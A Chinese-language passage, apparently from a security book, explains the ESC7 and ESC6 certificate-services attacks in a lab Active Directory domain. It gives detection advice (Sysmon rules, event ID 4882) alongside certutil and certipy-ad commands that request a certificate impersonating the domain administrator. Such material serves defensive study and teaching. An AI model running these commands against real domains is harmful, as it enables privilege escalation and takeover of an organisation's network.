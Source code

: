 图 8.35 – 成功的 ESC7 攻击

*Tarlogic*发布了一些引人入胜的研究。研究表明，如果对手拥有`ManageCA`权限，则可以通过上传 Web shell 实现远程代码执行。研究可在此处找到[24]。

为防止 ESC7，审查对 CA 具有敏感安全权限的主体。通过 Sysmon 注册表规则，可以检测到攻击者将设置`EDITF_ATTRIBUTESUBJECTALTNAME2`标志的情况。更改 CA 安全权限会生成事件 ID `4882`，如下所示：

![图 8.36 – khal.drogo 添加了证书管理权限](img/B18964_08_36.jpg)

图 8.36 – khal.drogo 添加了证书管理权限

下一节将演示，过去默认的 CA 配置导致完全接管 AD CS。

## CA 配置错误

现在我们将讨论一个在 2022 年 5 月由 Microsoft 补丁修复的攻击，但您仍可能在旧环境中遇到它。

### ESC6 – EDITF_ATTRIBUTESUBJECTALTNAME2

如果 CA 上设置了`EDITF_ATTRIBUTESUBJECTALTNAME2`标志，任何请求都可以在主题备用名称中定义值。实际上，任何域用户都可以在为域身份验证配置的任何模板中注册，并获取证书，包括域管理员。与 ESC1 的区别在于，帐户信息存储在证书属性中，而不是在证书扩展中。此标志存储在注册表中，可以使用`certutil.exe/certify`从非提升的上下文中验证；但是，如果检查是通过网络进行的，则远程注册表服务应该正在运行：

```
certutil -config "braavos\ESSOS-CA" -getreg "policy\EditFlags"
```

Certify 将检测到此标志并引发问题：

![图 8.37 – 标志已设置](img/B18964_08_37.jpg)

图 8.37 – 标志已设置

利用相对简单。我们请求一个用户证书，其中域管理员作为替代名称：

```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca 'ESSOS-CA' -upn administrator@essos.local
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

